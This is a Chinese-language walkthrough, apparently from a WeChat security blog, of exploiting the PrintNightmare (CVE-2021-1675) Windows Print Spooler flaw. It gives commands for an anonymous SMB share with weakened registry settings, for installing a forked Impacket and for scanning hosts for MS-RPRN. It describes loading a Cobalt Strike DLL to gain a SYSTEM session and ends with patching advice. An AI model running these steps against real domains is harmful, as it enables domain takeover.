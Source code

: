 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ul6nh4g5xSN_4JcZmT118A)

1、漏洞描述

        Windows Print Spooler 是 Windows 的打印机后台处理程序，广泛的应用于各种内网中。近期安全研究人员在 Github 公布了 Windows PrintSpooler 远程代码执行漏洞 POC。攻击者可以通过该漏洞绕过 PfcAddPrinterDriver 的安全验证，并在打印服务器中安装恶意的驱动程序，若攻击者所控制的用户在域中，则攻击者可以连接到 DC 中的 Spooler 服务，并利用该漏洞在 DC 中安装恶意的驱动程序，完整的控制整个域环境。

        Github 公布的地址：https://github.com/afwu/PrintNightmare

2、漏洞准备

        这里我们使用 python 版本的 poc

        地址：https://github.com/cube0x0/CVE-2021-1675

        环境：win2016  

        首先创建一个可以允许匿名访问的 smb

        创建时使用 powershell

```
mkdirC:\share
icaclsC:\share\ /T /grant Anonymous` logon:r
icaclsC:\share\ /T /grant Everyone:r
New-SmbShare-Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD"HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /vNullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existingNullSessionPipes
REG ADD"HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /vNullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD"HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous/t REG_DWORD /d 1 /f
REG ADD"HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /tREG_DWORD /d 0 /f
# Reboot
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0rw95dQGZBCZPLv1Vb23S56CJicugeMeNBdf9YG3DnTHskPtXQpqLt1G08q4IrLbnEoM234zkibicxQ/640?wx_fmt=png)

3、漏洞利用

        在运行漏洞利用之前，您需要安装 Impacket 版本

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```
rpcdump.py @192.168.1.10 | grep MS-RPRN
```

        可以使用`rpcdump.py`来扫描潜在的易受攻击的主机，如果它返回一个值，它可能是易受攻击的

```
rpcdump.py @192.168.1.10 | grep MS-RPRN
```

```
协议：[MS-RPRN]：打印系统远程协议
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0rw95dQGZBCZPLv1Vb23S5b2kFcHpbxgVc7ibbN2hiaS7jOPO9KMcgFQ25Qb2vOE6m6s5EQhNlnEhw/640?wx_fmt=png)  

然后进行利用，这里使用 dll 是 cs 生成的 dll

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0rw95dQGZBCZPLv1Vb23S58ycL3vzibPaAyjMBPnT891WCbd4TibzCgViceJEB2X0K9jOw3nrOiaM3XQ/640?wx_fmt=png)

返回了 system 的会话

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV0rw95dQGZBCZPLv1Vb23S5aJ6E6ZFqfPlu3QtMxovg2bWzGibQKruu6pAY9tRibTFHibZqEElmXhTpA/640?wx_fmt=png)

4、修复建议

        安装微软 **CVE-2021-1675** 漏洞补丁

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675

        关闭打印机服务